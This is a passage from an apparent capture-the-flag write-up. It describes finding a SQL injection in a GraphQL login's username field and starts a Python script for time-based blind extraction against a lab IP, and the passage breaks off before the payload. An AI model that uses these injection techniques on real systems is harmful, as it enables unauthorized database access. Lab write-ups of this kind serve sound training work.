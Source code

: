 ### Exploitation

Then, I’ve tried to add bad characters in the username field. Adding a single quote results in an interesting error:

```graphql
{
 "query":{\n    LoginUser{username: \"admin'\",password : \"admin\"}{\n     message,\n   token \n}\n}"
}
```

It seems like the username field is vulnerable to an SQL injection. Since GraphQL is somehow interacting with the SQL database, We’ll not be able to bypass the login with it.

![Trying Sqli Query](/assets/img/stack-the-flags-2022/trying-sqli-query.png)

For the sake of this part, I’ll be using a time-based blind SQL injection attack to extract information from a GraphQL server. The code sends a series of HTTP requests to the server, each containing a slightly different GraphQL query, and measures the time taken for the server to respond to each request. By comparing the response times of different requests, the code is able to determine which requests were successful in extracting information from the server. If the response time is greater than 2 seconds, the code assumes that the query was successful in extracting information from the server, and the character that was used in the query is appended to the `res` string.In this case, I just guessed the table name and columns and I got a delay.

```python
import requests
import time
import os
#printable="a0123456789bcdefghijklmnopqrstuvwxyz"
printable="0123456789abcdefABCDEFGHIJKLMNOPQRSTUVWXYZ"
res=""
while True:
    for char in printable:
        time.sleep(0.6)
        session = requests.session()
        burp0_url = "http://10.129.255.194:80/graphql"
```